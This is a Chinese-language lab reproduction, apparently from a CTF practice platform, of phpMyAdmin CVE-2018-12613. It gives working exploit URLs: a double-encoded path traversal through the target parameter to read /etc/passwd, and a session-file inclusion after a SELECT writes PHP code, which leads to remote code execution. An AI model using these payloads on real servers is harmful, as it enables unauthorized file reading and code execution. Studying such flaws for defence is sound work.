





# 1、基础简述
- PHPMYADMIN：phpMyAdmin 是一款开源的、基于 Web 界面的 MySQL 及 MariaDB 数据库管理工具，由 PHP 语言开发，旨在为用户提供便捷的数据库可视化操作能力。无论是数据库管理员还是开发人员，都可通过浏览器访问 phpMyAdmin，无需借助命令行工具，就能完成数据库的创建、删除、备份、恢复，以及数据表的增删改查、SQL 语句执行、用户权限管理等核心操作。

# 2、漏洞原理
- 介绍：漏洞的成因是phpMyAdmin核心入口文件index.php中，对用于指定页面跳转与加载的target参数存在过滤逻辑缺陷，导致攻击者可通过构造特殊请求绕过程序的白名单校验，最终实现本地文件包含，进而可能触发远程代码执行。

# 3、漏洞复现
- 打开URL：http://node5.buuoj.cn:29126/index.php

- 访问：http://node5.buuoj.cn:29126/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd

成功读取到信息，说明漏洞存在
- 点击SQL执行sql语句并抓取数据包：

拿到cookie中的phpMyAdmin值
- 访问URL：http://node5.buuoj.cn:29126/index.php?target=db_sql.php%253f/../../../../../../../../tmp/sess_9f997420ec1a587045e80ea1da91e3b3

之所以通过 SQL 语句写入恶意代码后，包含 Cookie 中 Session ID 对应的 Session 文件就能实现 RCE，核心原因如下
1. 攻击者登录 phpMyAdmin 后，系统会为每个用户分配独立的 Session 文件，用于存储用户登录状态、操作权限、查询记录等信息
2. 该 Session 文件的路径和名称有固定规律：路径由 PHP 配置项 session.save_path 定义（常见路径如 /tmp/、/var/lib/php/sessions/），文件名格式为 sess_[Session ID]（例如 /tmp/sess_lepustimidus，其中 lepustimidus 就是 Cookie 中 phpMyAdmin 对应的 Session ID）
3. 攻击者执行恶意 SQL 语句（如 SELECT '<?php phpinfo(); ?>'）时，phpMyAdmin 会将 SQL 查询结果存入当前用户的 Session 文件中，相当于把恶意 PHP 代码 “写入” 了这个可被访问的文件；
4. 结合CVE-2018-12613，攻击者通过 target 参数构造路径穿越请求，精准包含自己的 Session 文件（利用 Cookie 中的 Session ID 定位文件路径）
5. 由于 Session 文件被 include 函数加载，其中的恶意 PHP 代码会被服务器直接解析执行，最终实现RCE